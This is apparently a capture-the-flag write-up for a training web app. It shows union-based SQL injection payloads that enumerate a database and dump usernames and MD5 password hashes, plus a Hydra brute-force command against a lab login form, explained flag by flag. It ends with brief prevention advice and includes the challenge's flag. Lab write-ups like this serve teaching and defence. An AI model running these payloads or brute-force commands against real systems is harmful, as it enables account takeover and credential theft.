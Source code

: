 ## Flag

```
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## How to find the flag

Knowing that this database is vulnerable to sql injections. We can go to any page which is vulnerable to sql injections like **Members.** Here we will exploit as much as we can the sql injection.

1. **Retrieving information:**
    
    First we should list all the databases inside this webserver. We can do it using the following command:
    
    ```sql
    1 union select schema_name, 2 from information_schema.schemata
    ```
    
    Here we can see that there is a database named Member_Brute_Force.
    
2. **Retrieving database tables:**
    
    In order to get the tables of this database we should get Member_Brute_Force string in hexadecimal:
    
    ```sql
    1 union select table_name, 2 from information_schema.tables where table_schema=0x4d656d6265725f42727574655f466f726365
    ```
    
3. **Finding Columns in the “db_default” table:**
    
    The important table here is db_default, we should list the columns inside of this table:
    
    ```sql
    1 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name=0x64625f64656661756c74
    ```
    
    This will give use two important fields, username and password.
    
4. **Extracting data:**
    
     Here we will choose both columns and desplay them:
    
    ```sql
    1 UNION SELECT username, password FROM Member_Brute_Force.db_default
    ```
    
    As we can see we get the users **root** and **admin**. If we decrypt the password using MD5 decrypter we get that the password is **shadow**. Now if we go to the main page in sign in we can use these credentials to get the flag.
    

## Another approach

Knowing that this method is based more in sql injection than brute force i will provide another way to get the password too.

We will be using a tool named **Hydra** in order to automate the process of trying passwords from a dictionary. 

```bash
hydra -l admin -P 1000000-password-seclists.txt -f 192.168.247.128 -s 80 -o hydra.log http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif
```

Here's what each part does:

1. **`hydra`**:
    - This is the main command to start Hydra, a tool used for brute-forcing login credentials on various protocols.
2. **`l admin`**:
    - The `l` flag specifies a single username to use in the attack. Here, it's set to `admin`. Hydra will try to authenticate with this username for each password in the list.
3. **`P 1000000-password-seclists.txt`**:
    - The `P` flag specifies a file with a list of passwords to try. Here, `1000000-password-seclists.txt` is the file that contains the password list Hydra will iterate through. Each line in this file is treated as a potential password.
4. **`f`**:
    - This flag tells Hydra to stop the attack as soon as it finds the correct credentials. Without `f`, Hydra would continue testing all passwords in the list, even after finding a match.
5. **`192.168.247.128`**:
    - This is the target IP address where the attack is directed.
6. **`s 80`**:
    - The `s` flag specifies the port number. Here, it's set to `80`, which is the default HTTP port.
7. **`o hydra.log`**:
    - The `o` flag specifies an output file to save results. Here, results will be written to `hydra.log`.
8. **`http-get-form`**:
    - This specifies the type of login form Hydra will target. In this case, `http-get-form` is used for forms that send data via an HTTP GET request. Other options could include `http-post-form` for POST-based login forms.
9. **`'/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'`**:
    - This is the main parameter that defines how Hydra should interact with the form. It’s broken down as follows:
        - **`/index.php`**: The path to the login form on the server.
        - **`page=signin&username=^USER^&password=^PASS^&Login=Login`**: These are the form parameters Hydra will use to try logging in. `^USER^` and `^PASS^` are placeholders that Hydra will replace with each username and password combination.
        - **`F=images/WrongAnswer.gif`**: This specifies a condition for a failed login attempt. If the server responds with a page containing `images/WrongAnswer.gif`, Hydra knows the login attempt was unsuccessful.

## Prevent brute-force attack:

We can prevent these attacks using the followed methods:

1. **Rate limiting:**
    
    Limit the number of login attempts from a single IP address in a specific time frame.
    
2. **Account lockout:**
    
    Lock the account temporarily after a certain number of failed login attempts.
    
3. **Captcha**:
    
    Implement a CAPTCHA after a few failed login attempts.
